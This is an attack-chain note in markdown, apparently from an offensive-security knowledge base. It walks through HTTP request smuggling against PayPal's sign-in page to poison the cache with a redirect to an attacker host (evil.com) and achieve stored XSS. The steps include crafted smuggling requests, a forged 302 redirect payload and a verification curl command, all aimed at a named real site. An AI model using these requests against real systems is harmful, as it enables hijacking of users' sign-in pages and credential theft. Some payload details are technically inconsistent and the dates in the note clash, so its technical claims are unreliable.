

---
tags:
  - http-request-smuggling
  - cache-poisoning
  - stored-xss
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands: []
platforms:
  - Web
complexity: high
procedures:
  - '[[procedures/Perform-HTTP-Request-Smuggling]]'
  - '[[procedures/Poison-Cache-with-Redirect]]'
  - '[[procedures/Verify-Stored-XSS-Impact]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploits a configuration flaw in frontend caching servers via HTTP request
  smuggling to create cached redirects, poisoning the cache and enabling stored
  XSS on the sign-in page.
skill_level: advanced
impact_level: high
id: b5becd5d-0db7-4821-b7dc-e379bfb843ac
created_at: '2025-12-11T03:47:56.918Z'
updated_at: '2025-12-11T03:47:56.918Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1059.007]]'
---
# HTTP Request Smuggling for Cache Poisoning and Stored XSS on PayPal Sign-in Page

## Overview

This attack chain demonstrates how a configuration flaw in PayPal's frontend caching servers can be exploited using HTTP request smuggling techniques. The attacker smuggles requests to convert a standard page request into a cached redirect, poisoning the cache. This causes legitimate users to be redirected to or render attacker-controlled content, interfering with page integrity and enabling stored XSS attacks on pages like the sign-in page (https://paypal.com/signin). The attack does not affect back-end data but compromises frontend rendering.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Platform: Web
- Tech Stack: Frontend caching servers
- Network Access: Public access to https://paypal.com/signin

### Initial Access Requirements

- No credentials required
- Ability to send HTTP requests to the target
- Proxy tool for request manipulation

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint - [[procedures/Perform-HTTP-Request-Smuggling]]

**Objective**: Detect if the frontend caching servers are susceptible to HTTP request smuggling by testing for desynchronization between frontend and backend request parsing.

**Instructions**: Use [[tools/Burp-Suite]] to intercept and modify HTTP requests to the target endpoint. Craft a smuggled request using [[commands/craft-smuggled-http-request]] to test for smuggling:

```http
POST /signin HTTP/1.1
Host: paypal.com
Content-Length: 0
Transfer-Encoding: chunked

0

GET /attacker-controlled HTTP/1.1
Host: evil.com
```

Analyze the response for signs of smuggling success, such as unexpected redirects or content inclusion.

**Expected Output**: Server responds with a mix of responses indicating desync.

**Success Indicators**:
- Response includes parts of the smuggled request
- Cache behavior shows anomalies

### Step 2: Poison Cache with Redirect - [[procedures/Poison-Cache-with-Redirect]]

**Objective**: Exploit the smuggling vulnerability to inject a cached redirect that points to attacker-controlled content.

**Instructions**: Build on the smuggling by sending a poisoned redirect using [[commands/send-poisoned-redirect]]:

```http
POST /signin HTTP/1.1
Host: paypal.com
Content-Length: 5
Transfer-Encoding: chunked

0

HTTP/1.1 302 Found
Location: https://evil.com/xss-payload
```

This poisons the cache, causing subsequent requests to the /signin page to redirect to the attacker's site.

**Expected Output**: Cache stores the redirect, verifiable by cache headers or repeated requests.

**Success Indicators**:
- Legitimate requests to /signin now redirect to attacker content
- No back-end data alteration observed

### Step 3: Verify Stored XSS Impact - [[procedures/Verify-Stored-XSS-Impact]]

**Objective**: Confirm that the poisoned cache leads to stored XSS by accessing the page and executing attacker content.

**Instructions**: Access the cached page using [[commands/test-cached-page-access]] to trigger the XSS:

```bash
curl -v https://paypal.com/signin
```

Observe if the response includes or redirects to attacker-injected JavaScript.

**Expected Output**: Page renders attacker content, potentially executing XSS payloads like alert('XSS').

**Success Indicators**:
- XSS payload executes in the context of paypal.com
- Page integrity is compromised for users hitting the poisoned cache

## Attack Chain Summary

### Key Achievements

1. Successful smuggling of HTTP requests to desync frontend and backend
2. Poisoning of cache to inject redirects and attacker content
3. Enabling stored XSS on critical pages without back-end impact

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
